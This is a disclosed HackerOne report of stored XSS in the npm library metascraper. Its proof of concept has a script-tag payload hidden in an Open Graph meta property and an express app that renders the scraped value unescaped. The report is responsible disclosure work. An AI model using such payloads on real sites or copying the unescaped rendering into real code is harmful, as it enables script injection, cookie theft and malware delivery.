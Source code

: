 # [metascraper] Stored XSS in Open Graph meta properties read by metascrapper

## Report Details
- **Report ID**: 309367
- **URL**: https://hackerone.com/reports/309367
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-01-25T21:27:01.580Z
- **Disclosed**: 2018-03-28T06:09:21.146Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

**metascrapper** is vulnerable to Stored XSS via Open Graph metadata, if they are used in HTML without any sanitization.

**Module:** 

A library to easily scrape metadata from an article on the web using Open Graph metadata, regular HTML metadata, and series of fallbacks.

https://www.npmjs.com/package/metascraper


**Description**

Due to lack of HTML sanitization, there is possibility to embed malicious code in any of metadata read by ```metascrapper```. When library reads such metadata, there is no sanitization performed. If output from ```metascrapper``` is used directly in HTML code, any HTML embed in metadata is executed in context of the page which load and render it.


## Steps To Reproduce:

### This part of PoC represents An Attacker

An attacker needs to inject malicious code into any of Open Graph property.

- create website (I serve it via static server available at http://127.0.0.1:8080) witt the following content. Please take a look at payload embed in ```og:site_name``` meta property:

```html
<!doctype html>
<html xmlns:og="http://ogp.me/ns#" lang="en">

<head>
    <meta charset="utf8">
    <title>metascraper</title>

    <meta property="og:description" content="The HR startups go to war.">
    <meta property="og:image" content="image">
    <meta property="og:site_name" content='<script src="http://127.0.0.1:8080/malware.js"></script>'>
    <meta property="og:title" content="test article">
    <meta property="og:type" content="article">
    <meta property="og:url" content="http://127.0.0.1:8080">
</head>

<body>
</body>
</html>
```

- save it as ```article.html``` in the root directory of the server runs on ```http://127.0.0.1:8080```.

- create ```malware.js``` file with following content and save it in the same directory as ```article.html```:

```
alert('Uh oh, I am very bad malware!')
```

Please be aware that ```JavaScript``` file with malicious code can be served from ANY place. This particular location is only for Poc.


**This represents an HTML page which can be "scrapped" with ```metascrapper```**


### This part of PoC represents legitimate User and an attack itself

- install ```metascrapper``` and required dependiences (```got``` and ```express```)

```
$ npm install metascrapper got express
```

- create an app which will use ```metascrapper``` to read webiste metadata. ```127.0.0.1:8888``` is address of server which uses ```metascrapper```. ```http://127.0.0.1:8080/article.html``` is **target website**, where from metadata will be read:

```javascript

const metascraper = require('metascraper')
const got = require('got')
const express = require('express')

const targetUrl = 'http://127.0.0.1:8080/article.html'

const app = express()

app.get('/scrap', function(req, res) {;
    (async() => {
        const {
            body: html,
            url
        } = await got(targetUrl)
        const metadata = await metascraper({
            html,
            url
        })
        console.log(metadata)  // see returned metadata in console:
        /*
            { author: null,
                date: null,
                description: 'The HR startups go to war.',
                image: 'http://127.0.0.1:8080/image',
                lang: 'en',
                logo: null,
                publisher: '<script src="http://127.0.0.1:8080/malware.js"></script>',
                title: 'test article',
                url: 'http://127.0.0.1:8080/article.html' }
        */
        // display content of metadata.publisher in the browser
        let __html = `
            <div>
                <p>site title: ${metadata.title}</p>
                <p>site publisher: ${metadata.publisher}</p>
            </div>
        `
        res.send(__html)
    })()
})

app.listen(8888, () => console.log('Example app listening on port 8888!'))
```

- run above app:

```
$ node app.js
```

- go to ```http://127.0.0.1:8888/scrap```

- malicious JavaScript code embed in site metadata ```og:site_name``` is executed:

{F257373}

As we can notice, our payload was displayed in the source page "as is":

{F257372}


## Supporting Material/References:

Configuration I've used to find this vulnerability:

- macOS HighSierra 10.13.3
- node 8.9.3
- npm 5.5.1
- curl 7.54.0

## Wrap up

I hope this report will help to keep Node ecosystem more safe. If you have any questions about any details of this finding, please let me know in comment.

Thank you

Regards,

Rafal 'bl4de' Janicki

## Impact

Although this is quite hard to exploit in the wild, there is no doubt such attack is possible. This might lead to malware distribution, session cookies from infected websites leaks, run cryptocurrency miners in users' browsers and many more attacks.

## Attachments
- 2.png
- 1.png
